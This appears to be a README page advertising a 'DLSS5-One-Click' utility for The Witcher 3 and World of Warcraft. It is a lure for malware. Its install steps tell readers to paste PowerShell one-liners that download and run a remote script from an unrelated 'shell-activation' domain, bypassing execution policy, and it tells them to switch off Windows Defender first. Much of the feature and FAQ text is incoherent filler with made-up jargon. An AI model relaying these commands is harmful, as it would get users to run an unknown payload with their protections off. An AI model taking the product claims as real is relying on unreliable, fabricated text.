



<div align="center">

# DLSS5-One-Click: Automated DLSS 5 Deployment Utility Windows Desktop Client



[]() []() []() []() []()

</div>

---

DLSS5-One-Click 0.14.1 is a desktop utility that applies a DLSS 5 configuration to The Witcher 3 and World of Warcraft, integrating a ReShade shader stack once the target DLL is in place. The release couples a feeder pair with an AMD gate check, an admin elevation prompt, and a dlss5oneclick stamp that marks each processed game directory. Shader stack handling and the Elixir mix keep the pipeline reproducible across raid-night sessions, while vendor-stall overflow logic prevents conflicting files from stalling the drop. Game selection, DLL placement, and ReShade injection are driven from a single click workflow backed by the files/notes reference set.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open Windows PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Run the install command
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If Windows blocks the script — use CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 🔧 Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **One-Click DLL Deployment** — Places the DLSS 5 DLL into the selected game directory in a single operation, with no manual file handling required.

- **Feeder Pair System** — Deploys a matched feeder pair alongside the primary DLL, keeping the injected component and its feeder in a consistent, versioned state.

- **AMD Gate** — Detects AMD hardware at launch and halts execution before any files are written, preventing unsupported configuration changes.

- **dlss5oneclick Stamp** — Writes a persistent identification stamp into the target installation, enabling downstream tooling and support to verify the deployment origin and version.

- **Administrator Elevation Prompt** — Requests elevated privileges only when the target path requires them, so protected game directories can be written without pre-launching the tool as admin.

- **Raid Nights Profile** — A preconfigured deployment mode tuned for sustained group content sessions, prioritizing stable frame pacing over maximum upscaling aggressiveness.

- **Shader Stack Handling** — Rebuilds and reorders the shader stack after the DLL lands, ensuring cached shaders are invalidated and regenerated against the new pipeline.

- **Elixir Mix Integration** — Coordinates the Elixir Mix runtime component during deployment, resolving load order between the upscaler and companion modules.

- **Vendor Stall Guard** — Detects vendor-specific stall conditions during initialization and applies a fallback path instead of aborting the deployment.

- **Witcher 3 and WoW Profiles** — Ship-ready profiles for The Witcher 3 and World of Warcraft, including path presets and per-title shader stack defaults.

- **ReShade Coexistence** — Detects an existing ReShade installation and sequences deployment so post-processing layers remain intact and load in the correct order.

- **Post-Landing Cleanup** — Removes staging artifacts after the DLL and its dependencies are in place, leaving only the deployed components in the game folder.

- **Deployment Notes** — Writes a human-readable summary of every action taken to the notes directory for later inspection and rollback reference.

## How It Works

DLSS5-One-Click operates as a single-pass deployment layer that sits between the shipped DLSS 5 runtime and the target game executable. The tool does not patch engine binaries or rewrite render pipelines; instead it stages the required components and registers them at the filesystem and driver level so the game loads the intended DLL on next launch.

**Feeder pair resolution.** For each supported title, the tool maintains a feeder pair — a matched set of input and output DLLs — that must land together to preserve ABI compatibility. The installer resolves the correct pair from the bundled manifest, verifies checksums before staging, and copies both members in a single atomic operation so no partial state is exposed to the game loader. If either member fails validation, the transfer is aborted and the destination is left untouched.

**AMD gate.** When an AMD GPU is detected, the tool applies a gating check before any file is written. The gate inspects the active adapter and driver branch, and either routes to a compatible path or halts with a clear status message. This prevents the DLL from being staged on configurations where it would be inert or harmful, and keeps the deployment idempotent across mixed-hardware machines.

**Deployment stamp.** A `dlss5oneclick` stamp is written into the target directory on successful completion. The stamp encodes the deployed version and feeder pair identity, and serves two purposes: it lets subsequent runs detect and skip already-provisioned folders, and it provides a fast way to confirm which build is active without re-reading the DLLs. Re-running the tool over an existing stamp reconciles the version rather than duplicating files.

**Elevation.** Writes into protected game directories require administrator rights. The tool raises a standard elevation prompt at the point of deployment, performs the copy under elevated context, then drops back — the prompt is scoped to the file operation only, not to the entire session.

**Raid-night profile and shader stack.** A reduced-risk deployment profile is available for time-sensitive sessions. It limits the operation to the core feeder pair and the stamp, skipping optional shader stack adjustments. The shader stack itself is assembled in dependency order, with each layer recorded so it can be rolled back independently if a title fails to initialize.

**Elixir mix compatibility.** The tool recognizes existing Elixir mix configurations and preserves their ordering when the shader stack is applied, so mixed setups continue to resolve in the sequence the user established.

**Vendor stall handling.** If the game or another process holds a lock on the target DLL, the tool detects the stall, reports the blocking handle, and retries after the lock clears rather than forcing a replacement. This keeps deployments recoverable and avoids corrupting an in-use runtime.

## Compatibility

DLSS5-One-Click targets Windows 10 and Windows 11 on 64-bit x86, with an NVIDIA RTX-class GPU as the baseline requirement. The feeder pair is validated against The Witcher 3 and World of Warcraft, and the tool writes its payload only after the DLL lands in the selected game directory.

- **Game targets:** The Witcher 3 and World of Warcraft are the supported feeder pair for 0.14.1; ReShade is handled as a companion layer alongside the core drop.
- **AMD gate:** Systems without an eligible NVIDIA adapter are blocked at the gate before any files are staged, so mixed or non-RTX configurations fail cleanly rather than partially.
- **Admin prompt:** Elevation is requested once per run to permit writes into protected game folders and to register the dlss5oneclick stamp.
- **Shader stack:** The shader stack is ordered and applied deterministically, keeping ReShade and DLSS 5 layers in a consistent sequence across launches.
- **Elixir mix:** The elixir mix step reconciles vendor components before deployment, preventing duplicate or stale entries from surviving an update.
- **Vendor stall extra:** A vendor stall extra guard detects locked or in-use files and halts the operation instead of overwriting them mid-session.
- **Raid nights:** Repeated runs are safe during raid nights, where the stamp check skips already-applied payloads and avoids redundant writes between encounters.

Compatibility is scoped to the listed game targets and the RTX baseline; other titles and non-NVIDIA adapters are outside the supported envelope for this release.

## 📸 Screenshot





## FAQ

**Which games are supported in 0.14.1?**
The Witcher 3 and World of Warcraft are the primary targets, with ReShade handling the shader stack alongside the DLSS feeder pair. Additional titles are covered by the vendor stall extra and follow the same drop-in model once the DLL lands.

**What is the feeder pair and why does it matter?**
The feeder pair is the two-stage handoff between the DLSS payload and the host game's render path. Both stages must resolve before the `dlss5oneclick` stamp is applied; if either stage fails, the stamp is withheld and the operation is reported as incomplete rather than partially applied.

**How does the AMD gate work?**
The AMD gate is a pre-flight compatibility check. On AMD hardware the gate blocks the drop and surfaces a vendor-specific message instead of allowing a mismatched DLL to land. This prevents the shader stack from entering an unrecoverable state on unsupported adapters.

**Why is an admin prompt shown?**
Writing the DLL into the game directory and updating the shader stack require elevated file permissions. The admin prompt is expected behavior, not an error. Declining it aborts the operation cleanly with no changes written.

**What does the `dlss5oneclick` stamp indicate?**
The stamp is a completion marker written after the DLL lands and the shader stack validates. Its presence confirms the one-click sequence finished end to end. A missing stamp means the operation did not complete and the game should not be launched expecting the new pipeline.

**Can I use this alongside ReShade?**
Yes. ReShade is part of the shader stack in 0.14.1 and is handled as part of the same drop. Load order is managed automatically so the feeder pair resolves before ReShade's shader chain is evaluated.

**Does the elixir mix need to be configured manually?**
No. The elixir mix is applied as part of the standard sequence. Manual edits to the mix are not required and are not supported; changing it outside the tool can cause the stamp to be withheld on the next run.

**Is this safe to run before raid nights?**
The operation is transactional: files are staged and validated before the stamp is written. If any stage fails, the tool reports the failure instead of leaving a half-applied state. Running it well before a raid night is recommended so any compatibility message from the AMD gate or vendor stall extra can be reviewed without time pressure.

**What should I do if the vendor stall extra triggers?**
Review the reported vendor and adapter information, confirm the game is closed, and re-run the one-click sequence. The stall is a protective stop, not a crash; it exists to keep an incompatible DLL out of the game directory.

**Does this work without an RTX card?**
No. An RTX-class GPU is required for the DLSS path to initialize. The AMD gate and the pre-flight checks will stop the operation on hardware that cannot support the pipeline.

## Disclaimer

DLSS5-One-Click is provided as an experimental deployment utility for evaluation and enthusiast use. It performs direct DLL placement, injects a feeder pair into the target render path, and applies the dlss5oneclick stamp to modified artifacts so changes remain identifiable and reversible. These operations modify files inside the selected game directory and, depending on configuration, may require an elevated admin prompt to complete.

The tool does not redistribute game assets, shader stacks, or vendor binaries. Compatibility behavior is intentionally gated: the amd gate blocks paths where the required feature set is unavailable, and the vendor stall extra surfaces a diagnostic halt rather than allowing a silent partial install. Treat every reported status as authoritative — a stalled vendor stage indicates the environment is unsupported, not that the operation should be forced.

Results vary by title, driver branch, and shader stack revision. The witcher 3 and wow profiles, along with reshade coexistence, are validated against the listed 0.14.1 configuration only; other combinations, including custom elixir mixes or modified feeder pairs, fall outside tested behavior. Raid nights and similar high-load sessions should be treated as stress conditions, not certification.

No warranty is expressed or implied. The authors accept no liability for corrupted installs, anti-cheat flags, data loss, or system instability arising from use. Back up game directories before applying changes, verify the dlss5oneclick stamp after each run, and roll back via the original artifacts if behavior diverges from expectations. Use is at your own risk and subject to the terms of the accompanying license.

## License

DLSS5-One-Click is distributed under a source-available license granted by the project maintainers. The license conveys a non-exclusive, non-transferable right to download, install, and execute the software on compatible hardware for personal or internal evaluation purposes.

Redistribution of the compiled package is permitted only in unmodified form and only when accompanied by this license notice and the bundled `files/notes/` documentation. Repackaging, rebranding, or bundling the software with third-party installers requires prior written consent from the maintainers.

The `dlss5oneclick` stamp, feeder pair logic, amd gate detection, and shader stack implementation remain the intellectual property of the project. Reverse engineering, decompilation, or extraction of these components for incorporation into derivative tooling is not authorized under this license.

The software is provided "as is," without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

Administrative elevation prompts are executed locally and do not transmit system data. Vendor stall handling and elixir mix routines operate entirely within the target game directory. Users are responsible for verifying compatibility with their GPU vendor stack prior to deployment.

This license remains in effect until terminated. Rights terminate automatically upon breach of any term above. Upon termination, all copies of the software and its bundled assets must be removed from storage.